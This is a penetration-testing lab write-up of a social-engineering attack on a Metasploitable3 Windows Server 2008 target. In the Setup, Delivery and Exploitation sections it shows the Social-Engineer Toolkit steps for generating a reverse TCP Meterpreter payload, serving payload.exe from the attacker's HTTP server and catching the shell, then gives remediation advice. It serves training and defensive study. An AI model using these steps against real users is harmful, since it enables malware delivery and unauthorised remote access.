






# Windows Server 2008 (Metasploitable3) - SET Toolkit Reverse TCP Payload (Social Engineering)

- **Category:** Network Pentesting - Gaining Access (Social Engineering)
- **Environment:** Self-hosted lab - Kali Linux (attacker) + Windows Server 2008 (target), Host-Only network
- **Tools used:** Social-Engineer Toolkit (SET), Metasploit (multi/handler), Python HTTP server, Wireshark

## Objective
Demonstrate a social-engineering-based attack chain: generate a Windows reverse TCP Meterpreter payload, deliver it to the target via a simulated download, and catch the resulting session.

## Setup / Payload Generation
Used SET to generate a Windows Meterpreter reverse TCP payload:
```
1. sudo setoolkit
2. Social-Engineering Attacks
3. Create a Payload and Listener
4. LHOST: 192.168.30.5
5. LPORT: 80
```
Payload type generated: **`Windows Reverse_TCP Meterpreter`**



## Delivery
Hosted the generated executable via Python's built-in HTTP server:
```
cd /root/.set
python3 -m http.server 8080
```

On the target (Metasploitable3 Windows), downloaded and executed the payload from:
```
http://192.168.30.5:8080/payload.exe
```
This step simulates the human element of the attack. A user retrieving and running an untrusted executable, rather than a service being directly exploited.



## Exploitation Steps
1. SET automatically started a `multi/handler` listener on the configured LPORT.
2. Upon execution on the target, a Meterpreter session was received:
   ```
   sysinfo
   getuid
   ```
   Output:




## Wireshark Correlation
Captured traffic on Kali during payload execution, filtered on `tcp.port == 80`. The target (Metasploitable3) sent the initial SYN packet to Kali - not the reverse. This confirms the defining characteristic of reverse TCP: the compromised host initiates an **outbound** connection, which typically bypasses firewall rules that block inbound traffic but permit outbound.



## Impact
Full Meterpreter access to the target was obtained without exploiting any software vulnerability - the compromise relied entirely on the target user executing an untrusted file. This demonstrates that even a fully-patched system remains at risk if endpoint execution controls and user awareness are weak.

## Remediation
- User security-awareness training to recognize and avoid executing unsolicited downloads.
- Application whitelisting / endpoint protection to block unrecognized executables.
- Email/web content filtering to intercept payload delivery vectors before they reach the user.
- Network egress filtering to restrict which outbound ports/destinations are permitted, limiting reverse-shell callback options.

## Key Takeaway
Unlike EternalBlue, this attack exploited no software flaw - the vulnerability was entirely human (willingness to execute an unknown file). This is the clearest practical illustration of why "patch everything" alone doesn't eliminate risk: social engineering bypasses the patch layer completely, which is why awareness training and egress controls matter as much as vulnerability management.
